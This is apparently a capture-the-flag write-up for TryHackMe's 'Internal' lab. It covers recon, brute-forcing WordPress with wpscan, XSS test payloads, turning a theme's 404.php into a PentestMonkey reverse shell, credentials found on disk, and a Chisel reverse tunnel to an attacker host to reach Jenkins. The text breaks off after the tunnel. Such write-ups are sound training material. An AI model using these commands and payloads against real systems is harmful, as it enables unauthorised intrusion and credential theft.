 # Internal #
### Note: Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation. ###

![alt text](/Hard/Internal/Images/image-1.png)

### https://tryhackme.com/r/room/internal ###

------------------------------------------------------------------------------------------

### RECON: ### 
+ Ensure that you modify your hosts file to reflect internal.thm

+ Scan the target machine with Nmap and Gobuster:

```bash
nmap -sV -vv -A -p- -T4 internal.thm
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

```bash
gobuster dir -u http://internal.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -xtxt,php,html -t64
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]
/index.html           (Status: 200) [Size: 10918]
/.php                 (Status: 403) [Size: 277]
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

### WORDPRESS ###
+ First we use tool "Wpscan" to scan the website wordpress:

![alt text](/Hard/Internal/Images/image.png)

![alt text](/Hard/Internal/Images/image-2.png)

+ We've found the user "admin" and we continue to scan user:

```bash
wpscan --url http://internal.thm/wordpress/ -U admin -P /usr/share/wordlists/rockyou.txt
```

![alt text](/Hard/Internal/Images/image-3.png)

--> We could brute-force the credential user "admin". 
 + After brute-force successfully we had the credential Wordpress admin:my2boys

+ Login with "admin", we are in Dashboard. Now we go to look around all features to find what the vulnearability will appear.
+ We've found the Private Post in Posts and the credential of user William but we do not know where we can log in with this. 

![alt text](/Hard/Internal/Images/image-4.png)

--> The credential was leaked: william:arnold147

-----------------------------------------------------------------------------------------

### XSS ###
+ The vulnerability XSS appear in feature "Comments".
+ We will test common payload XSS first:

```bash
<script>alert('XSS')</script>
```

![alt text](/Hard/Internal/Images/image-6.png)

+ When we update comment and "View Post" so the website pop up the box alert:

![alt text](/Hard/Internal/Images/image-7.png)

+ Second XSS we've found that is feature "Posts".
+ We edit the title of post and save it. When we view the post, the pop up alert will appear.

![alt text](/Hard/Internal/Images/image-8.png)

![alt text](/Hard/Internal/Images/image-9.png)

+ Third XSS that is the feature "Pages".
+ We edit the title page and when we review it the pop up alert will appear again.

![alt text](/Hard/Internal/Images/image-10.png)

![alt text](/Hard/Internal/Images/image-11.png)

-----------------------------------------------------------------------------------------------------

### Exploit Themes to RCE ###

+ When we've checked in Site Health page, we've known that we had 2 themes was out of date:

```bash
### wp-active-theme ###

name: Twenty Seventeen (twentyseventeen)
version: 2.3
author: the WordPress team
author_website: https://wordpress.org/
parent_theme: none
theme_features: automatic-feed-links, title-tag, post-thumbnails, menus, html5, post-formats, custom-logo, customize-selective-refresh-widgets, editor-style, editor-styles, wp-block-styles, responsive-embeds, starter-content, custom-header, widgets
theme_path: /var/www/html/wordpress/wp-content/themes/twentyseventeen

### wp-themes-inactive (2) ###

Twenty Nineteen: version: 1.5, author: the WordPress team (latest version: 1.6)
Twenty Twenty: version: 1.2, author: the WordPress team (latest version: 1.4)

### wp-plugins-inactive (2) ###

Akismet Anti-Spam: version: 4.1.5, author: Automattic (latest version: 4.1.6)
Hello Dolly: version: 1.7.2, author: Matt Mullenweg

### wp-filesystem ###

wordpress: not writable
wp-content: not writable
uploads: not writable
plugins: not writable
themes: not writable
```
--> Researching we know that theme is out of date will have the potential vulnearability in file "404.php". We are able to edit PHP file to RCE.

+ Checking 2 themes is out of date, theme "Twenty Nineteen" can't be edited but theme "Twenty Twenty" can be edited.
+ First we will active the theme "Twenty Twenty" replace theme "Twenty Seventeen". After we will edit file 404.php to RCE.
+ We can choose the webshell.php of PentestMonkey.
+ Update file successfully, we access the URL "http://internal.thm/wordpress/wp-content/themes/twentytwenty/404.php" and open netcat to catch the opened PORT.

![alt text](image.png)

+ RCE successfully and now we have to find the information to login user "aubreanna".
+ After a period of searching, we've found the interesting file in /opt.

```bash
www-data@internal:/$ cd /opt
cd /opt
www-data@internal:/opt$ ls
ls
containerd
wp-save.txt
www-data@internal:/opt$ cat wp-save.txt
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
www-data@internal:/opt$ 
```

--> We've found the credential aubreanna:bubb13guM!@#123. We use it to login SSH.

![alt text](image-1.png)

-------------------------------------------------------------------------------------

### Tunnel Jenkins Server ###
+ After login successfully SSH user "aubreanna", we had the file name "jenkins.txt" and read it.

```bash
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat jenkins.txt 
Internal Jenkins service is running on 172.17.0.2:8080
```

+ We've found the server Jenkins is running but we can't access directly into the Jenkins so we will check it:

```bash
aubreanna@internal:~$ ss -tl
State     Recv-Q      Send-Q            Local Address:Port               Peer Address:Port     
LISTEN    0           128                   127.0.0.1:33299                   0.0.0.0:*        
LISTEN    0           128               127.0.0.53%lo:domain                  0.0.0.0:*        
LISTEN    0           128                     0.0.0.0:ssh                     0.0.0.0:*        
LISTEN    0           80                    127.0.0.1:mysql                   0.0.0.0:*        
LISTEN    0           128                   127.0.0.1:http-alt                0.0.0.0:*        
LISTEN    0           128                        [::]:ssh                        [::]:*        
LISTEN    0           128                           *:http                          *:*   
```

+ We've seen "127.0.0.1:http-alt" that is port 8080 also is port Jenkins server which is running.
+ Now we will use Tunnel to create the way accessing the Jenkins. We use tool "Chisel" to create the Tunnel.

```bash
zicco@z-a:/usr/bin$ chisel server -p 5555 --reverse
2024/11/16 15:34:08 server: Reverse tunnelling enabled
2024/11/16 15:34:08 server: Fingerprint qfX9SVjQY9DeTP/8LeaLgu29Us/gDcfEq3KOJQQCf5U=
2024/11/16 15:34:08 server: Listening on http://0.0.0.0:5555
2024/11/16 15:37:33 server: session#1: tun: proxy#R:8080=>8080: Listening
```

```bash
aubreanna@internal:~$ ./chisel client 10.11.101.46:5555 R:8080:127.0.0.1:8080 &
[1] 2080
aubreanna@internal:~$ 2024/11/16 08:37:32 client: Connecting to ws://10.11.101.46:5555
2024/11/16 08:37:34 client: Connected (Latency 304.454537ms)
```

![alt text](image-2.png)

+ 

